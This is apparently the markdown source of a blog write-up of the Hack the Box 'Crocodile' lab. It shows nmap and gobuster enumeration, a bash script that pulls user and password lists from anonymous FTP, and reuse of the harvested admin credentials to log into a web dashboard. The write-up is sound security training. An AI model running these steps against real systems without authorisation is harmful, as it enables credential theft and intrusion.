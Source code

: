 +++
title = "Crocodile on Hack the Box Write-up"
author = ["funcsec"]
date = 2022-01-23
publishDate = 2022-01-23
lastmod = 2022-01-23T23:17:22-08:00
tags = ["linux", "ftp", "gobuster"]
categories = ["writeup", "redteam"]
draft = false
toc = "true +"
omit_header_text = "+"
background_color_class = "bg-black-60"
description = "Write-up on Crocodile from Hack the Box"
featured_image = "images/george-shaw_st-domingo-crocodile.jpg"
images = ["images/george-shaw_st-domingo-crocodile.jpg"]
+++

Sometimes I like these quick, single vulnerability boxes because I can work on the speed of reporting.
Find the flag, then go back and answer the questions required to submit the flag.
Plus add a couple notes and modifications to the toolset in the notes, like the different wordlist for enumeration `http`.

---


## Executive Summary {#executive-summary}

The target machine suffered from broken access control vulnerability that allow for the harvesting of active user credentials from FTP.
Those same credentials could be used to login to a restriced part of the web application.


## Attack Narrative {#attack-narrative}

First, to make attacking the box easier, the ip address was set in the `/etc/hosts` file of the attacking machine.
This is to make the `crocodile` resolve to the IP, rather than continuing to put in the IP.
The IP will be notated as `crocodile` or `$ip` moving forward.

```bash
nmap -sV -sC $ip
```

```text
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-24 00:29 EST
Nmap scan report for crocodile (10.129.252.80)
Host is up (0.084s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.10.14.18
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
|_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Smash - Bootstrap Business Template
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.85 seconds
```

The `nmap` scan indicated that there was an open port 21, typically used for the FTP service.
With the `-sC` flag, `nmap` enumerates any files available on the FTP service that are available to the `Anonymous` user.
Those accessable files were then downloaded.

```bash
#!/bin/bash
set -euo pipefail
IP="$ip"
PORT=21
USER="anonymous"
PASS="anonymous"

ftp -inv -P $PORT $IP <<EOF
user $USER $PASS
pass
get allowed.userlist
get allowed.userlist.passwd
bye
EOF
echo "allowed.userlist ==============================="
cat "allowed.userlist"
echo "allowed.userlist.passwd ========================"
cat "allowed.userlist.passwd"
```

```text
Connected to crocodile.
220 (vsFTPd 3.0.3)
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
Passive mode: off; fallback to active mode: off.
local: allowed.userlist remote: allowed.userlist
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for allowed.userlist (33 bytes).
  0% |                                   |     0        0.00 KiB/s    --:-- ETA100% |***********************************|    33       96.19 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (0.38 KiB/s)
local: allowed.userlist.passwd remote: allowed.userlist.passwd
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for allowed.userlist.passwd (62 bytes).
  0% |                                   |     0        0.00 KiB/s    --:-- ETA100% |***********************************|    62      282.92 KiB/s    00:00 ETA
226 Transfer complete.
62 bytes received in 00:00 (0.73 KiB/s)
221 Goodbye.
allowed.userlist ===============================
aron
pwnmeow
egotisticalsw
admin
allowed.userlist.passwd ========================
root
Supersecretpassword1
@BaASD&9032123sADS
rKXM59ESxesUFHAd
```

It was possible that the credentials harvested here could be used to access another FTP user.
The most intriguing were the admin credentials of `admin:rKXM59ESxesUFHAd`.

```text
kali@kali-vm:~$ ftp -inv -P 21 crocodile
Connected to crocodile.
220 (vsFTPd 3.0.3)
ftp> user admin rKXM59ESxesUFHAd
530 This FTP server is anonymous only.
Login failed.
```

Unfortunately, this was not the case `FTP server is anonymous only`.
The moving onto the next service on port 80.
Beginning was to enumerate the http service on port 80 with `gobuster`.

```text
kali@kali-vm:~$ gobuster dir -u http://crocodile:80 -w /usr/share/dirb/wordlists/common.txt

kali@kali-vm:~$ ===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://crocodile:80
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/01/24 00:50:50 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 274]
/.hta                 (Status: 403) [Size: 274]
/.htaccess            (Status: 403) [Size: 274]
/assets               (Status: 301) [Size: 307] [--> http://crocodile/assets/]
/css                  (Status: 301) [Size: 304] [--> http://crocodile/css/]
/dashboard            (Status: 301) [Size: 310] [--> http://crocodile/dashboard/]
/fonts                (Status: 301) [Size: 306] [--> http://crocodile/fonts/]
/index.html           (Status: 200) [Size: 58565]
/js                   (Status: 301) [Size: 303] [--> http://crocodile/js/]
/server-status        (Status: 403) [Size: 274]

===============================================================
2022/01/24 00:51:30 Finished
===============================================================
```

The most interesting result was the page `/dashboad/` which contained a login page.

{{< figure src="/ox-hugo/crocodile_login.php.png" >}}

Obviously the next step was to try the admin credentials harvested from the FTP service.
Trying `admin:rKXM59ESxesUFHAd` was successful!

The flag was displayed as the banner of the dashboard, the following is the HTML source.

```html
<h1 class="h3 mb-0 text-gray-800">Here is your flag: [[ REDACTED ]]</h1>
```

The flag was found. It was `HTB{[[ REDACTED ]]}`.

---

Fun and fast single flag exercise!
The next couple will all come from Proving Grounds.
Not sure if I like "Attack Narritive" better than "Methodology".
